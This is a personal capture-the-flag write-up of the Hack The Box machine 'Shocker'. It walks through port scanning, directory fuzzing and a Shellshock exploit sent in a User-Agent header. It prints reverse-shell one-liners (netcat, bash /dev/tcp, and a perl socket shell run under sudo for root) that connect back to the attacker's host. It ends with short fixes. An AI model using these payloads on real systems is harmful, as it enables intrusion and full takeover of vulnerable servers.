

# Shocker

```
kali@kali:~/htb/Shocker$ sudo nmap -sV -sC 10.129.1.175 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 17:42 EST
Nmap scan report for 10.129.1.175
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
kali@kali:~/htb/Shocker$ 
```

I try Fuzzing the webpage. Both directories, and php pages. Nothing. 

I try to searchsploit:

```
kali@kali:~/htb/Shocker$ searchsploit Apache 2.4.18
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                    | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                  | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                              | linux/local/46676.php
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                                   | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                               | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                         | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                         | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                  | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                          | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)       | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)       | jsp/webapps/42966.py
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                       | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution                                   | linux/remote/34.pl
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
And ssh:

```
kali@kali:~/htb/Shocker$ searchsploit OpenSSH 7.2
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                           | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                     | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                    | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                            | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                               | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation               | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                           | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                               | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                              | linux/remote/40113.txt
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hmm. Not really seeing anything that I think I want to spend time on atm. I did some cursory examinations of some of them. Let’s double down on the fuzzing:

I’m trying a lot of different wordlists here. I finally find one that gives a result:


```
kali@kali:~/htb/Shocker$ sudo wfuzz -c --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.129.1.175/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.1.175/FUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                        
===================================================================

000000001:   200        9 L      13 W     137 Ch      "http://10.129.1.175/"                                                         
000000013:   403        11 L     32 W     296 Ch      ".htpasswd"                                                                    
000000011:   403        11 L     32 W     291 Ch      ".hta"                                                                         
000000012:   403        11 L     32 W     296 Ch      ".htaccess"                                                                    
000000820:   403        11 L     32 W     295 Ch      "cgi-bin/"                                                                     
000002020:   200        9 L      13 W     137 Ch      "index.html"                                                                   
000003588:   403        11 L     32 W     300 Ch      "server-status"                                                                

Total time: 0
Processed Requests: 4614
Filtered Requests: 4607
Requests/sec.: 0

kali@kali:~/htb/Shocker$ 

```

And now we fuzz again, but we are looking for something after cgi.bin/:

Can’t find anything. Ok. Then let’s try some different extensions:

```
kali@kali:~/htb/Shocker$ cat extensions_common.txt | tr -d "." > extensions.txt
kali@kali:~/htb/Shocker$ cat extensions
cat: extensions: No such file or directory
kali@kali:~/htb/Shocker$ cat extensions.txt
/
asp
aspx
bat
c
cfm
cgi
com
dll
exe
htm
html
inc
jhtml
jsa
jsp
log
mdb
nsf
php
phtml
pl
reg
sh
shtml
sql
txt
Xml
kali@kali:~/htb/Shocker$ cp /usr/share/wfuzz/wordlist/general/extensions_common.txt .
kali@kali:~/htb/Shocker$ cat extensions_common.txt | tr -d "." > extensions.txt
kali@kali:~/htb/Shocker$ cat extensions.txt
/
asp
aspx
bat
c
cfm
cgi
com
dll
exe
htm
html
inc
jhtml
jsa
jsp
log
mdb
nsf
php
phtml
pl
reg
sh
shtml
sql
txt
xml
kali@kali:~/htb/Shocker$ sudo wfuzz --hc=403,404 -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions.txt http://10.129.1.175/cgi-bin/FUZZ.FUZ2Z
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.1.175/cgi-bin/FUZZ.FUZ2Z
Total requests: 6175680

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000003496:   200        7 L      17 W     118 Ch      "user - sh"   
```

So here we are running 2 Fuzz wordlists. The second one is FUZ2Z, the third one would be FUZ3Z etc.

And we actually get a hit. `http://10.129.1.175/cgi-bin/user.sh`

And I get prompted to download user.sh. Lets curl to see what it looks like:

```
kali@kali:~$ curl http://10.129.1.175/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:56:10 up  1:16,  0 users,  load average: 0.00, 0.00, 0.00


kali@kali:~$ 
```

Let’s try a shellshock attack. You can read more here:

https://blog.cloudflare.com/inside-shellshock/ 

Essentially, many of the arguments we send to the webpage are often turned into variables later on. And therefore they may be used to run code. Now the name of the box is also making sense.

I run burpsuite and try to send some shellshock code.


Hmm, didn’t work. But sometimes you need to add one or even two `echo;` in front. 


And we get an answer.

I try to create various netcat reverse shells. Like:

`User-Agent: () { :; }; echo; /bin/bash -c 'nc 10.10.14.21 1337 -e /bin/bash'` to use netcat. But I don’t think netcat will do here. So I try the more manual approach:

`User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'`

And on the listener:

```
kali@kali:~/htb/Shocker$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.175 47946
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```

So Shelly is not sudo, let’s check the permissions:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Ooh. root access to perl. That should be it.

So I quickly find a perl reverse shell one liner:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.21";$p=1338;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
<en(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'                  
```

And on the listener:

```
kali@kali:~/htb/Shocker$ sudo rlwrap nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.1.175 60064
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

And there we are.

## Comparing myself with the official writeup:

The official writeup finds the same user.sh directory using dirbuster. And then move on to use metasploit to exploit the shellshock.

They highlight a POC exploit code that can be used. And use `sudo /usr/bin/perl -e 'exec "/bin/sh"'` to gain root instead of a reverse shell.


## How to stop this exploit:
 
The foothold can be fixed by updating your version of bash to stop the shellshock, keep everything updated. And the privilege escalation can be fixed by simply not allowing this used to have root access to anything, really. There is simply no need.
